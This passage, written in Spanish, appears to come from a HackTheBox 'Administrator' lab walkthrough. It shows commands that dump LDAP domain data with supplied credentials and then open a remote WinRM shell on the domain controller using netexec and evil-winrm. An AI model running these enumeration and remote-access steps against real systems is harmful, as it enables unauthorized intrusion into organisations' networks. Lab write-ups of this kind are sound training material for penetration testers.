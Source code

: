 ```bash
ldapdomaindump -u 'administrator.htb\Olivia' -p 'ichliebedich' 10.10.11.42 -o ldap
```

<figure><img src="../../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Revisando el archivo "domain\_users.html" verificamos que el usuario que disponemos forma parte del grupo "Remote Management Users", con el cual podríamos conectarnos al DC a través de WinRM, PsExec, etc.

<figure><img src="../../../../../.gitbook/assets/2518_vmware_q1EDJinRJG.png" alt=""><figcaption></figcaption></figure>

## Abusing WinRM

Procederemos a acceder al WinRM a través de **evil-winrm** con el usuario que nos proporciona _HackTheBox_ y hemos comprobado que forma parte del grupo "Remote Management Users".

```bash
netexec winrm 10.10.11.42 -u 'Olivia' -p 'ichliebedich'

evil-winrm -i 10.10.11.42 -u 'Olivia' -p 'ichliebedich'
```

